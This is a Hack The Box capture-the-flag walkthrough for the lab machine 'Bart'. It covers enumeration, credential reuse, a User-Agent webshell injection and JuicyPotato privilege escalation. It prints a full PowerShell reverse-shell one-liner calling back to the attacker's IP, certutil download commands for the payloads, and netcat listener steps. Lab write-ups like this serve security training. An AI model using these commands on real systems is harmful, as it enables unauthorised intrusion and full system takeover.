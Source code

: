 # HTB - Bart

#### Ip: 10.10.10.81
#### Name: Bart
#### Difficulty: Medium

----------------------------------------------------------------------

![Bart.png](../assets/bart_assets/Bart.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Bart]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.81 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-06 12:14 CDT
Nmap scan report for 10.10.10.81
Host is up (0.066s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://forum.bart.htb/
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.70 seconds
```

Ok looks like just port 80 is open here. Lets add forum.bart.htb to our `/etc/hosts` file.

Taking a look at the webpage we find a company page:

![site.png](../assets/bart_assets/site.png)

taking a look at the page source we also find a comment left behind that includes a name:

![name.png](../assets/bart_assets/name.png)

Because port 80 redirected to forum.bart.htb I wondered if there were more domains we could fuzz. Lets try using wfuzz:

![wfuzz.png](../assets/bart_assets/wfuzz.png)

Ok cool, looks like there is also a monitor.bart.htb- lets add that to `/etc/hosts` as well.

This leads us to a server monitor page. 

![monitor.png](../assets/bart_assets/monitor.png)

Because we've found the username harvey, I tried some random passwords and got lucky logging in with the credentials harvey:potter, which we found in the page source comment on forum.bart.htb. 

![login.png](../assets/bart_assets/login.png)

Looking in the Servers section of the page we find yet another domain to add to `/etc/hosts`

![internal.png](../assets/bart_assets/internal.png)

Navigating to the site we find another login page:

![dev.png](../assets/bart_assets/dev.png)

Trying the credentials harvey:potter again we get a verbose error message `The Password must be at least 8 characters`. But if we try a user we know won't exist like testing:testing123 we get the message `Invalid Username or Password`. This leads me to believe that the user harvey is a valid username here. 

Trying some more directory scanning we find the page http://internal-01.bart.htb/simple_chat/register_form.php. Navigating to the page we get the message `The page cannot be displayed because an internal server error has occurred.`

![ferox.png](../assets/bart_assets/ferox.png)

Searching Google for simple_chat/register_form.php I find this GitHub page which contains source code for the page. https://github.com/magkopian/php-ajax-simple-chat/blob/master/simple_chat/register.php

![gh.png](../assets/bart_assets/gh.png)

Cool, looks like the page wants two fields uname and passwd. Lets try creating a new user using curl and making a POST request to /register.php

```text
┌──(ryan㉿kali)-[~/HTB/Bart]
└─$ curl -X POST http://internal-01.bart.htb/simple_chat/register.php -d "uname=testing&passwd=password123"
```

Nice, that seemed to work. Lets return to the login page and authenticate.

![in.png](../assets/bart_assets/in.png)

Awesome, that worked! 

Taking a look at the source code we find an interesting link and function:

![source.png](../assets/bart_assets/source.png)

Capturing this in Burp and playing around with it a bit, I find that the User Agent field is vulnerable. I can inject a webshell into the field and get execution on the box:

![php.png](../assets/bart_assets/php.png)

![whoami.png](../assets/bart_assets/whoami.png)

Heading over to https://www.revshells.com/ and grabbing a PowerShell reverse shell and URL encoding it, I can set up a NetCat listener and get a reverse shell back:

![burp.png](../assets/bart_assets/burp.png)

```text
┌──(ryan㉿kali)-[~/HTB/Bart]
└─$ nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.14.72] from (UNKNOWN) [10.10.10.81] 50147
whoami
nt authority\iusr
PS C:\inetpub\wwwroot\internal-01\log> hostname
BART
PS C:\inetpub\wwwroot\internal-01\log>
```

### Privilege Escalation

At this point, I still don't seem to have access to the user.txt flag, so let's try to escalate privileegs to administrator.

Running `whoami /all` I see that `SeImpersonatePrivilege` is enabled. This means we may be able to try something like juicy potato to escalate privileges. 

First we'll need to create a file called shell.bat:

```text
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.72',444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Then we'll need to transfer to the target the shell.bat file as well as juicy potato:

```text
certutil -urlcache -split -f "http://10.10.14.72/shell.bat"

certutil -urlcache -split -f "http://10.10.14.72/JuicyPotato.exe"
```

```text
PS C:\TEMP> dir


    Directory: C:\TEMP


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
-a----       06/09/2023     19:24         347648 JuicyPotato.exe               
-a----       06/09/2023     19:23            522 shell.bat 
```

Next we'll set up a NetCat listener and run:

```text
C:\TEMP\JuicyPotato.exe -l 444 -p C:\TEMP\shell.bat -t * -c "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}"
```

And we will catch a shell back as nt authority\ system!

![jp.png](../assets/bart_assets/jp.png)

All we have to do now is grab the user.txt and root.txt flags:

![flags.png](../assets/bart_assets/flags.png)

Thanks for following along!

-Ryan

----------------------------------------
